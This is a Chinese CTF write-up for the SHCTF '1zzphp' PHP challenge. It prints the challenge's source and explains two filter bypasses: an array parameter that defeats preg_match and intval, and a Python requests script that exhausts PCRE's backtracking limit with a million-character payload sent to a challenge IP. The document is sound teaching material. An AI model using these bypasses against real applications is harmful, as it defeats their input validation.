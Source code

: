 ```yaml
---
layout: mypost
title: "[SHCTF]1zzphp"
categories: [ctf_wp]
---
```


（对于这个题里面的正则回溯绕过还是有不懂的话，可以去看看我的这篇文章--晕晕晕，正则回溯？！晕晕晕，以及之前发的那篇文章--CTF中那些奇奇怪怪的正则表达式）

![](006APoFYly8gvggsk336ig6050050x0c02.gif)

1.这个题目也是没有很多形象的东西，很直接的给了一个源码，这个还是很好审的，接下来带大家一起康康

![](image-20231101183632489.png)

```
<?php 
error_reporting(0);
highlight_file('./index.txt');
if(isset($_POST['c_ode']) && isset($_GET['num']))
{
    $code = (String)$_POST['c_ode'];
    $num=$_GET['num'];
    if(preg_match("/[0-9]/", $num))
    {
        die("no number!");
    }
    elseif(intval($num))
    {
      if(preg_match('/.+?SHCTF/is', $code))
      {
        die('no touch!');
      }
      if(stripos($code,'2023SHCTF') === FALSE)
      {
        die('what do you want');
      }
      echo $flag;
    }
} 
```

一起分析这个源码，首先还是高亮这个index.txt，然后分别用post和get方法去接受两个参数，第一层过滤是一个正则匹配（这个一看就很好绕），然后有一个intval的函数（这个函数也是CTF里面的老熟人了），来简单解释一下这个函数是干什么的

```
intval — 获取变量的整数值
具体一点的话是下面这个
int intval( var,base)
//var指要转换成 integer 的数量值,base指转化所使用的进制 
Note: 
如果 base 是 0，通过检测 var 的格式来决定使用的进制： 
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，  
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，  
◦ 将使用 10 进制 (decimal)
```

然后就又是一个正则了，这个正则首先一看就是一个非贪婪匹配（这个就理解成它会在原地等什么时候才能匹配到s，但是前面有一个.代表一个任意字符），具体抽象出来的意思就是只能以shctf前面不放东西，其实它就匹配不到，但是紧接着看后面这个stripos函数（这个函数也是经常被出成CTF的题目），这里也解释一下吧

```
stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）
```

意思就是必须得完完全全的匹配到这个'2023SHCTF'字符串，显然这个和上面这个正则是有冲突的，欧克源码就先说到这里

2.首先啊，咱们一步一步来，先看绕前面这两个，我们要满足`$num`里面没有数字（preg\_match检测不出来），同时满足`intval($num)`为1（true），这个直接采用数组就行，这就很常见的绕过了

```
preg_math()传入数组参数会直接返回0，同时intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值， intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1故此传入?num[]=1,产生错误返回1

所以就是?num[]=1
```

3.先给大家看个小视频吧，仔细观察，看完再继续看文章下面的内容

4.然后这个第二部分，要是之前没接触过这个正则回溯相关的知识的话，肯定是很难想到的，关于正则匹配的话我也写过一篇文章，文章的最后也给大家展示了p神发现的这个东西的应用，从网页到数据库，只要有用到正则匹配，且满足利用条件的，基本上就是通杀，所以近期也专门写了一篇关于正则回溯的1文章--晕晕晕，正则回溯？！晕晕晕，基本上就是贪婪匹配的话会一个一个回溯，而懒惰的话就是很容易出现这个问题，这个专业的叫法是PCRE回溯次数限制绕过，先给大家看下payload吧！

```
import requests
from io import BytesIO

url = "http://112.6.51.212:32998/"

session = requests.Session()

headers = {
    'User-Agent': 'Windows10 / Chrome 75.0.3770.142Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36'
}

data = b'b' * 1000000 + b'2023SHCTF'
bytes_io = BytesIO(data)

params = {'num[]': 1}
post_data = {'c_ode': bytes_io}

response = session.request('POST', url, params=params, data=post_data, headers=headers)

print("md给我flag:")
print(response.content)
```

这个就是用python模拟发包的过程，然后超过100万次的匹配，那么正则就会崩溃，返回Flase，而这里也没有做一个强等于判断0是否等于Flase，所以就轻松绕过了，大家看不懂的话，先去看看那两篇文章，很简单的！！！

![](image-20231101210117548-1024x270.png)

Finish!!!